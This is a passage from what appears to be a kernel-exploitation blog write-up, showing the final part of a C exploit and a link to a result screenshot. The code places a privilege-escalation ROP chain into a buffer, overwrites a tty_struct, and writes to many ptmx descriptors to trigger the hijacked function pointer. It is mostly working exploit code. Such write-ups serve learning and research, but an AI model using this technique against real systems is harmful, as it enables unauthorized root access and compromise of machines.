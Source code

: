 ```c
                                                   rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500, rip, cs, flags, rsp, ss};


    for (int j = 0; j < sizeof(pe_and_ret_to_userspace_rop) / 8; j++) {
        *((unsigned long *) &leak_buff[struct_empty_place_off + used_space + j * 8]) = pe_and_ret_to_userspace_rop[j];
    }


    // Overwrite the tty_struct with the modified version.
    write(fd, leak_buff, sizeof(leak_buff));

    // Trigger the overwrote function pointer in one of those objects.
    for (int i = 0; i < 0x100; ++i) {
        write(ptmx[i], dummy_buff, sizeof(dummy_buff));
    }

    sem_destroy(&mutex);

    return 0;
}
```

And the result is:

![Pasted image 20230915232757](https://github.com/0xAriana/blog/assets/121199478/0f53e733-2534-42f0-b7c9-d743d17b95b6)
